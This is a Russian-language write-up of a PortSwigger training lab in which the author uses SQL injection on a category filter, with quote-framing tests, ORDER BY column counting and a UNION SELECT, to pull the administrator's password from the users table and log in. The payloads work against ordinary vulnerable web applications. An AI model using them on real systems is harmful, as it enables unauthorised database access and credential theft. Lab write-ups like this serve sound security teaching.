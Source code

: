 ```yaml
---
title: "SQL injection UNION attack retrieving data from other tables"
date: 2025-06-19
tags: [sqli, writeup]
---
```


**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)


## Scope

```
https://0afe00cb0435e68b8132b15500ae0073.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. В БД есть таблицы с именам `users` и колонками `username` и `password`. Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.


## Solution

Известно, что уязвимость находится в фильтре категорий, поэтому сразу возьму его.

```
https://0afe00cb0435e68b8132b15500ae0073.web-security-academy.net/filter?category=Pets
```

Нужно подобрать обрамление. Пусть запрос выглядит следующим образом:

```sql
SELECT * FROM table WHERE category = 'Pets'
```

Протестирую пейлоад:

```
Pets' and 0=1-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-data-from-other-tables/1.png){: height="200" .align-center}

Страница пустая, значит для обрамления используются одинарные кавычки. Теперь узнаю количество полей в запросе с помощью `ORDER BY`:

```
Pets' ORDER BY 10-- -Error
Pets' ORDER BY 5-- -Error
Pets' ORDER BY 3-- -Error
Pets' ORDER BY 2-- -Ok
```

Значит в запросе 2 параметра. Использую `UNION`, чтобы отобразить данные:

```
Pets' and false UNION SELECT NULL, NULL-- -Ok
Pets' and false UNION SELECT 1, 2-- -Error
Pets' and false UNION SELECT '1', '2'-- -Ok
```

Теперь попробую добавить поля `username` и `password`:

```
Pets' and false UNION SELECT username, password FROM users WHERE username = 'administrator'-- -ok
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-data-from-other-tables/2.png){: height="200" .align-center}

Получил креды: `administrator`:`5j1o1b7ls5ltyvanoo42`. Зайду в аккаунт: 

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-data-from-other-tables/3.png){: height="200" .align-center}

Ну, все. Я получил власть...
